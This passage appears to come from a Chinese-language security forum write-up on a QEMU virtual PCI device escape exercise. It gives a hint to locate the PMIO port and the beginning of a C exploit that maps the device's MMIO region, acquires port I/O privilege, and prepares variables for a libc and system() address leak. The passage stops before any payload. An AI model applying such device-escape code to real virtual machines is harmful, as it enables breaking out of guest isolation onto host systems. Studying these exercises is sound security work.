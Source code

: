 - 通过info pci找到pmio的端口

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/11/attach-60476f86345ac75a78af9bd916be86b88d1e56d2.png)

```C
#define _GNU_SOURCE
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>
#include <string.h>
#include <fcntl.h>
#include <unistd.h>
#include <sys/mman.h>
#include <sys/io.h>

char *mmio_mem;

size_t mmio_read(size_t addr)
{
    size_t *mmio = (size_t *)((size_t)mmio_mem + addr);
    return *(mmio);
}

void mmio_write(size_t addr, size_t val)
{
    size_t *mmio = (size_t *)((size_t)mmio_mem + addr);
    *(mmio) = val;
}

#define IO_PORT 0xc000
size_t pmio_read(size_t addr)
{
    size_t pmio = IO_PORT + addr;
    return inl(pmio);
}
void pmio_write(size_t addr, size_t val)
{
    size_t pmio = IO_PORT + addr;
    outl(val, pmio);
}

int main()
{
    int mmio_fd;
    size_t libc_addr = 0, system_addr;

    // Open and map I/O memory for the string device
    mmio_fd = open("/sys/devices/pci0000:00/0000:00:04.0/resource0", O_RDWR | O_SYNC);
    if (mmio_fd == -1)
    {
        perror("open");
        exit(EXIT_FAILURE);
    }
    mmio_mem = mmap(NULL, 0x1000, PROT_READ | PROT_WRITE, MAP_SHARED, mmio_fd, 0);
    if (mmio_mem == MAP_FAILED)
    {
        perror("mmap");
        exit(EXIT_FAILURE);
    }
    if(iopl(3) == -1) /* Apply to system for accessing the port */
    {
        perror("iopl");
        exit(EXIT_FAILURE);
    }
```